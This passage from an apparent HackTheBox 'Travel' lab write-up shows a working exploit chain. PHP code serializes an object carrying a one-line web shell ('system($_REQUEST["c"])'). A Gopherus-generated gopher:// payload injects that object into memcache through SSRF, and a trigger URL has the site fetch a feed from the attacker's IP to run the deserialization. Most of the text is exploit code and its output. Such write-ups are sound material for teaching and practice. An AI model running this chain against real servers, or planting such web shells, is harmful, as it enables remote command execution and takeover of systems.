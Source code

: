 ```php
}

###
### The part below has been added
###
$user = new TemplateHelper('snow.php', '<?php system($_REQUEST["c"]); ?>');
echo serialize($user);

?>
```

When running the script, we get the serialized output:

```
snowscan@kali:~/htb/travel$ php exploit.php
PHP Warning:  file_put_contents(/home/snowscan/htb/travel/logs/snow.php): failed to open stream: No such file or directory in /home/snowscan/htb/travel/exploit.php on line 23
O:14:"TemplateHelper":2:{s:4:"file";s:8:"snow.php";s:4:"data";s:32:"<?php system($_REQUEST["c"]); ?>";}
```

## Reverse shell

So we'll go back to Gopherus with the PHP payload and get the payload for the memcache injection.

![image-20200519215655193](/assets/images/htb-writeup-travel/image-20200519215655193.png)

After changing the key for the correct value and replacing 127.0.0.1 by 0 we get the following payload:

```
gopher://0:11211/_%0d%0aset%20xct_0375e1e45d8573844bcfb43ffe0ca90a%204%200%20103%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:8:%22snow.php%22%3Bs:4:%22data%22%3Bs:32:%22%3C%3Fphp%20system%28%24_REQUEST%5B%22c%22%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a
```

We're ready to rock & roll now, first we populate the memcache with the payload:

![image-20200519220457976](/assets/images/htb-writeup-travel/image-20200519220457976.png)

Then we go to `http://blog.travel.htb/awesome-rss/?debug=1&custom_feed_url=http://10.10.14.33/customfeed.xml` to trigger the deserialization.
